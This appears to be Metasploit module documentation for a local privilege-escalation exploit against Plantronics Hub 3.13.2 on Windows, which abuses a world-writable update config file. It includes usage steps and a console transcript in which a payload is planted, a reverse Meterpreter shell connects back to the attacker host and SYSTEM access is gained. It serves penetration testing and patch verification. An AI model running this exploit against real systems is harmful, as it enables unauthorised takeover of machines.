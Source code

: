 ## Description

  The Plantronics Hub client application for Windows makes use of an
  automatic update service `SpokesUpdateService.exe` which automatically
  executes a file specified in the `MajorUpgrade.config` configuration
  file as SYSTEM. The configuration file is writable by all users by default.


## Vulnerable Application

  This module has been tested successfully on [Plantronics Hub version 3.13.2](https://www.plantronics.com/content/dam/plantronics/software/PlantronicsHubInstaller-3.13.2.exe) on Windows 7 SP1 (x64).


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/windows/local/plantronics_hub_spokesupdateservice_privesc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *SYSTEM* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `%TEMP%`)


## Scenarios

### Windows 7 SP1 (x64)

  ```
  msf > use exploit/windows/local/plantronics_hub_spokesupdateservice_privesc
  msf exploit(windows/local/plantronics_hub_spokesupdateservice_privesc) > set session 1
  session => 1
  msf exploit(windows/local/plantronics_hub_spokesupdateservice_privesc) > set verbose true
  verbose => true
  msf exploit(windows/local/plantronics_hub_spokesupdateservice_privesc) > check
  [*] The service is running, but could not be validated.
  msf exploit(windows/local/plantronics_hub_spokesupdateservice_privesc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(windows/local/plantronics_hub_spokesupdateservice_privesc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Writing payload to C:\Users\test\AppData\Local\Temp\MuVtxrl9.exe ...
  [*] Writing configuration file to C:\ProgramData\Plantronics\Spokes3G\MajorUpgrade.config ...
  [*] Sending stage (180291 bytes) to 172.16.191.242
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.242:49431) at 2020-01-03 14:55:46 -0500
  [-] Failed to delete C:\Users\test\AppData\Local\Temp\MuVtxrl9.exe: stdapi_fs_delete_file: Operation failed: Access is denied.

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > 
  ```

